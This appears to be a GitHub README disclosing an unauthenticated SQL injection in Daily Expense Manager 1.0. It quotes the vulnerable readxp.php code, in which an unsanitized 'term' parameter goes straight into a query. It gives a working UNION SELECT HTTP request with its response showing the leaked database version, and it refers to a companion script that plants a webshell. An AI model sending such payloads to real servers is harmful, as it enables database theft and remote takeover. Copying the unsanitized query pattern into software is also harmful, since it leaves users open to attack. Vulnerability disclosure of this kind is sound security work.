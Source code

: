 # Daily Expense Manager 1.0 - SQL Injection (Unauthenticated)
SQLi in Daily Expense Manager 1.0 allows for injection of SQL queries, resulting in information disclosure and remote code execution.

## Vulnerable Code
File: /Daily-Expense-Manager/readxp.php , Line: 16-23
```
<?php
include("functions.php");

if(isloggedin()==FALSE)
{

}
else
{
  
}
$sid=$_SESSION['id'];


//get search term
$searchTerm = $_GET['term'];
//get matched data from skills table
$query = $conn->query("SELECT * FROM expense WHERE pname like '%$searchTerm%' AND uid='$sid' and isdel='0' group by pname");
while ($row = $query->fetch_assoc()) {
    $data[] = $row['pname'];
}
//return json data
echo json_encode($data);
?>
```
The LoggedIn() function effectively does nothing to prevent unauthenticated users from accessing this file.
The `$SearchTerm` variable is not sanitized and is under control of the attacker.

## Proof-of-concept
The HTTP request below injects a UNION statement to retrieve the version of the underlying database.

HTTP Request
```
GET /Daily-Expense-Manager/readxp.php?term=asd%27%20UNION%20ALL%20SELECT%201,@@version,3,4,5,6--%20- HTTP/1.1
Host: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Mon, 22 Aug 2022 16:28:11 GMT
Server: Apache/2.4.53 (Debian)
Set-Cookie: PHPSESSID=h7jdflgm9l3d84lruefl5jie3h; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

["10.5.12-MariaDB-1-log"]
```

## Script
A proof-of-concept script written in python 3.6.x is in this repository. Follow instructions to inject a webshell onto the target.

## Links
Vendor Homepage: https://code-projects.org/daily-expense-manager-in-php-with-source-code/

Software Link: https://download-media.code-projects.org/2020/01/DAILY_EXPENSE_MANAGER_IN_PHP_WITH_SOURCE_CODE.zip
